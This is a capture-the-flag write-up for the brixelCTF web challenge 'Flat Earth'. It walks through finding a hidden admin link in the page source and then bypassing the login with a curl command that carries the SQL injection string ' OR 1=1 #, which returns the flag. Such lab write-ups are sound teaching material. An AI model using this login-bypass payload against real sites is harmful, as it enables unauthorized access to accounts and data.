


# Flat Earth
**Category:** [Internet](../README.md)

**Points:** 10

**Description:**

These idiots... I heard there is a rally of flat earth believers tomorrow

We should access their admin panel and stop that rally from happening!

http://timesink.be/flatearth/

## Write-up
When visting the website above, you are presented with this front page:



Looking at the source, we can see that there is a hidden link (the text colour is the same as the background) that takes us to the *admin.php* page:
```html
<html>
<title>Flat Earth Believers</title>
<body bgcolor="#000000" text="white">
	<div align="center"><h1>The earth is flat!</h1></div>
	<hr>
	<div align="center">
		<p>Ever since that Greek idiot Eratosthenes claimed that the earth is round, we have been living in a lie.</p>
		<p></p>
		<p>The earth is not round! It is a flat disk set on top of a turtle travelling trough space!</p>
		<p>We believe that the government is actively trying to hide this great truth from us by sending us pictures from <b>their OWN</b> so called 'space administration' or 'nasa'</p>
		<p>Therefor we must unite against the government! Join our protests that are taking place all around the globe.</p>
		<br>
		<p>Next protest:</p>
		<p><script type="text/javascript">var tomorrow = new Date();tomorrow.setDate(tomorrow.getDate() + 1);document.write(tomorrow.toLocaleDateString("nl-NL"));</script></p>
		<p>Joe's warehouse on 11th street, Hoboken New Jersey</p>
		<br><br>
		<p><a href="admin.php"><font color="#000000">administration</font></a></p>
	</div>
</body>
</html>
```
Visiting that admin page, we get a web form:



The source for this shows a form using the *POST* method with two parameters - `username` and `password`:
```html
<html>
<title>FEB admin</title>
<body>
	<form name="login" method="POST" action="admin.php">
		<p>Welcome, please log in</p>
		<p>Username:&nbsp;<input type="text" name="username"></p>
		<p>Password:&nbsp;<input type="password" name="password"></p>
		<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<input type="submit" value="log in">
	</form>
</body>
</html>
```
We can try a standard SQL injection here to see if the site uses an SQL database to check usernames and passwords:
```
> curl --data "username=%27%20OR%201=1%20%23&password=pass" http://timesink.be/flatearth/admin.php
That should do the trick, the flag is brixelCTF{<flag was here>}
```
That worked and gave us the flag!
